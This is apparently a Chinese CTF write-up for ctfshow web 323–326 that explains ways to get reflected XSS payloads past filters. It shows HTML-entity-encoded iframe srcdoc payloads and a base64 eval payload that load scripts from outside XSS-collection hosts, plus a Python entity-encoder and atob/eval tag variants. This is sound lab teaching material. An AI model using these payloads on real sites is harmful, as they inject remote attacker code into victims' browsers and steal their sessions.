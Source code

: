 ### web 323-326

同web322

反射型到这一题应该就截止了，现在讲讲千奇百怪的payload。

反射型绕过过滤好文：[xss 常用标签及绕过姿势总结 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/340080.html)

**1.利用十进制转实体来绕过**

```
<iframe	WIDTH=0	HEIGHT=0	srcdoc=。。。。。。。。。。&#60;&#115;&#67;&#82;&#105;&#80;&#116;&#32;&#115;&#82;&#67;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#120;&#115;&#46;&#115;&#98;&#47;&#49;&#66;&#113;&#117;&#34;&#62;&#60;&#47;&#115;&#67;&#114;&#73;&#112;&#84;&#62;>

<iframe/srcdoc=。。。。。。。。。。&#60;&#115;&#67;&#82;&#105;&#80;&#116;&#32;&#115;&#82;&#67;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#120;&#115;&#115;&#46;&#112;&#116;&#47;&#99;&#76;&#103;&#70;&#34;&#62;&#60;&#47;&#115;&#67;&#114;&#73;&#112;&#84;&#62;>
```

这个`&#60`其实是十进制的html 实体编码。字符串转十进制的html 实体编码脚本如下：

```py
def string_to_html_entities(input_str):
    html_entities = [f'&#{ord(char)};' for char in input_str]
    result = ''.join(html_entities)
    return result

input_str = input("请输入字符串: ")
html_entities_result = string_to_html_entities(input_str)
print("HTML实体编码:", html_entities_result)

```

<iframe后面的WIDTH和HIGHT其实是设置宽、高等属性，没有也没事



**2.base64编码绕过**

```
<input οnfοcus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veHNzOC5jYy8ySEpJIjtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw== autofocus>
```

使用atob函数进行base64解码

除了像这种payload这样用，还能像如下这 些payload这样用

```js
<a href=javascript:eval(atob('SmF5MTc='))>test</a>
<a href=javascript:eval(window.atob('SmF5MTc='))>test</a>
<a href=javascript:eval(window['atob']('SmF5MTc='))>test</a>
<img src=x onmouseover="eval(window.atob('SmF5MTc='))">
<img src=x onerror="eval(atob('SmF5MTc='))">
<iframe src="javascript:eval(window['atob']('SmF5MTc='))"></iframe>

```

